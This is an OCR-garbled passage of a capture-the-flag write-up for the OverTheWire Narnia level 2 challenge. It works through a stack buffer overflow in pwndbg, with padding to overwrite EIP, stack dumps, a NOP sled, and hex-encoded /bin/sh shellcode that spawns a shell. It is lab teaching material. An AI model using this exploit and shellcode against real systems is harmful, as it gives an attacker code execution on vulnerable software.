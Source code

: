    highlight bash   
pwndbg  r   python  c  print  A  132   B  4   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80             
Starting program   home 0xd4y business other overthewire narnia 2 narnia2   python  c  print  A  132   B  4   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6e  
x89xe3x50x53x89xe1xb0x0bxcdx80                                               
                                                                                       
Program received signal SIGSEGV  Segmentation fault                                                                                                                          0x42424242 in                                                                                                                                                                
   endhighlight   

Note how the EIP register was successfully overwritten with 4 B s

After executing this payload  we can view where in the EBP register lies the payload 

   highlight bash   
pwndbg  x 100x  esp 200                                                                                                                                                     0xffffcec8      0xffffdf8b      0x00000000      0xf7fa6000      0xf7fa6000                                                                                                  0xffffced8      0xffffcf88      0xf7e14fe5      0xf7fa6d20      0x08048534                                                                                                   0xffffcee8      0xffffcf04      0x00000000      0xffffcf08      0xf7ffd980            0xffffcef8      0xf7e14fc5      0x08048494      0x08048534      0xffffcf08                                                                                                   0xffffcf08      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf18      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf28      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf38      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf48      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf58      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf68      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf78      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf88      0x41414141      0x42424242      0x90909090      0x90909090  
0xffffcf98      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffcfa8      0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffcfb8      0x896e6962      0x895350e3      0xcd0bb0e1      0x00000080  
0xffffcfc8      0xf7fa6000      0xf7fa6000      0x00000000      0x6675dc09
   endhighlight   

As we can see  the junk bytes lead all the way to 0xffffcf88  and the return address starts at 0xffffcf88   4 which is 0xffffcf8c  The NOP sled then begins at 0xffffcf90  and the shellcode starts at 0xffffcfac  Using this information  we can construct the payload to be the following 

   highlight bash   
python  c  print  A  132   x98xcfxffxff     x90  30    x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80  
   endhighlight   

The return address points to 0xffffcf98 which is an address within the boundary of the NOP sled  Therefore  this payload should go past each NOP bytes as it eventually gets to the shellcode 

   highlight bash   
pwndbg  r   python  c  print  A  132   x98xcfxffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80             
Starting program   home 0xd4y business other overthewire narnia 2 narnia2   python  c  print  A  132   x98xcfxffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80     
process 5966 is executing new program   usr bin dash  
  whoami  
 Attaching after process 5966 fork to child process 5974   
 New inferior 2  process 5974    
 Detaching after fork from parent process 5966   
 Inferior 1  process 5966  detached   
process 5974 is executing new program   usr bin whoami  
0xd4y
   endhighlight   
